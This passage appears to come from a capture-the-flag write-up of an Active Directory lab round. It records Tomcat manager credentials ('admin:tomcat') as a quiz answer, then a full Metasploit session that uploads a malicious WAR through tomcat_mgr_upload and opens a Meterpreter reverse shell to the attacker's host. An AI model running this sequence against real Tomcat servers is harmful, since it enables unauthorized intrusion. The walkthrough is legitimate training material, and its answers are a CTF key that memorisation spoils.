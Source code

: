 ![](/images/ctf-round-3-active-directory/13.png)

#### Answer: admin:tomcat

### Q2 - MD5 checksum hash for file 'tomcat.ico'

![](/images/ctf-round-3-active-directory/6.png)

Next, I need to gain access to the remote target through the Apache Tomcat service. To do that, I ran `use 17` to select module `multi/http/tomcat_mgr_upload` and configured it properly. Then I ran the exploit.

```
msf6 auxiliary(scanner/http/tomcat_mgr_login) > use 17
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpPassword tomcat
HttpPassword => tomcat
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpUsername admin
HttpUsername => admin
msf6 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS 192.168.240.80
RHOSTS => 192.168.240.80
msf6 exploit(multi/http/tomcat_mgr_upload) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/tomcat_mgr_upload) > set LHOST 10.0.200.2
LHOST => 10.0.200.2
msf6 exploit(multi/http/tomcat_mgr_upload) > exploit

[*] Started reverse TCP handler on 10.0.200.2:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying obllDiY...
[*] Executing obllDiY...
[*] Sending stage (58125 bytes) to 192.168.240.80
[*] Meterpreter session 1 opened (10.0.200.2:4444 -> 192.168.240.80:57086) at 2020-11-22 00:45:10 +0800
```